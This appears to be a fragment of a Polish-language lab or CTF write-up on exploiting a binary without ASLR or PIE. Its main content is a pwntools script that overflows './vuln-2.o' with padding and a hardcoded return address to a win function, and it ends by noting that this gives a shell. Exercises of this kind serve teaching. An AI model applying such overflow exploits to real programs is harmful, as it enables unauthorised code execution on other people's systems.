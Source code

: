 ```python=
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2.o')

base_addres = 0x56555000

win_addres = 0x000011c9

win_addres = base_addres + win_addres

send = b"A" * 28 + p32(win_addres)

p.sendline(b"")

p.sendline(send)

p.interactive()
```





W wyniku poniższego exploitu dostajemy shella.


![](pictures/1_no_aslr_pie.png)
